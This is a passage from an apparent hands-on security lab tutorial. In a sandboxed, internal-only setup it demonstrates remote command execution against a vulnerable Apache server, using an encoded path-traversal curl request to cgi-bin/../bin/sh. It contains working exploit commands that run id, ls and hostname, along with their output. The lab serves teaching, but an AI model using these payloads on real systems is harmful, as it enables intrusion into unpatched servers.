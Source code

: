 In the above command, you are calling a "/bin/sh" command on the remote linux container where the Apache server is running.

In the output you should see the following string:

```apache
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

This is the output of the id command. From this output we can understand that the remote Apache server is running with permissions of the "daemon" user.

Practically, this means that an intruder can run any commands on the remote Apache server without having any additional access like SSH.

You can try to elevate our permissions from the "daemon" to the "root" user, but this is not the purpose of this exercise. This simulation might look unrealistic, but when this exploit was detected for the first time, there were thousands of vulnerable versions of the Apache server running in the global Internet.

On the diagram you can see what is happening:

![26646de06a100bc9.png](https://cdn.qwiklabs.com/ohyh63fQ%2FBaQMk68OeeS3vy3G5QUEmdIX%2B1FdW05o1s%3D align="left")

* **1.** We run the "curl" command on the Attacker instance and connect to Apache
    
* **2.** Apache runs the "id" command using "/bin/sh" shell
    
* **3.** The "id" commands returns output to the Apache
    
* **4.** Apache returns the output of the "id" command to the Attacker instance
    

Our vulnerable Apache service is not exposed to the external world, we have built an internal-only configuration, so now we can investigate a bit further. You can experiment with different commands and try to explore the remote environment.

2. Check the list of files in the root directory:
    

```apache
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"
```

You should receive a similar output:

```apache
total 68
drwxr-xr-x   1 root root 4096 Sep 28  2021 bin
drwxr-xr-x   2 root root 4096 Jun 13  2021 boot
drwxr-xr-x   5 root root  360 Jul 14 00:13 dev
................................................
```

3. Check the hostname of the remote host:
    

```apache
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"
```
